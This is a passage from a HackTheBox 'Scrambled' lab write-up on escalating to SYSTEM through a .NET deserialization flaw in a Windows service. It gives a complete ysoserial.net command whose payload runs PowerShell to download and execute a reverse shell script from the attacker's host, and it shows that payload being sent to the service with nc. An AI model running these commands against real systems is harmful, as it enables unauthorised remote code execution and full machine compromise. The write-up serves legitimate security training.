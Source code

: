 The application formats the data with `Binary formatter` and encodes it with `Base64`. Then it sends it to the server with `UPLOAD_ORDER;<payload>` command.

## .NET deserialization attack

As we have seen, the application sends the data in serialized binary base64 format. So, the application performs deserialization on its side. We explored that the application is running as a service on the machine, which means it has `NT AUTHORITY\SYSTEM` rights on the machine.

We can abuse it by performing a `.NET deserialization attack`. The author of the machine has a [blog post](https://vbscrub.com/2020/02/05/net-deserialization-exploits-explained/) about this attack. We need a [ysoserial.net](https://github.com/pwntester/ysoserial.net) tool. You can learn how to use it on its GitHub page and on [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#ysoserial.net)

I haven't had an easy access to Windows machine, so I decided to upload this zip archived tool directly on the machine with our meterpreter shell. In Windows cmd, we can unzip the files with `tar.exe` tool.

```bash
upload ysoserial-1.35.zip
shell
```

```cmd
tar -xf ysoserial-1.35.zip
```

Our next step is to generate a payload for this application. We know that it is converting a .NET binary in base64 and sends it to the application. I've used a `WindowsIdentity` gadget here. We specify here to execute powershell, download a reverse shell script from our machine and execute it. A choosed the same reverse shell payload as before here.

```cmd
ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "powershell.exe Invoke-Command -Computer dc1 -ScriptBlock {IEX(New-Object Net.WebClient).downloadString('http://<IP>:<PORT>/shell.ps1')}"
```

Then, we have set up a listener, copy the payload and pass it in the application with `UPLOAD_ORDER;` string.

```bash
$ nc dc1.scrm.local 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;<payload>
ERROR_GENERAL;Error deserializing sales order: Exception has been thrown by the target of an invocation.
```

The last line here indicates that the payload is deserialized and executed, because it has thrown an exception. The application did not recognized the "right" data here.

And we can check on our machine, the reverse shell gained. 

![Got root!](/assets/hackthebox/scrambled/rooted.png)
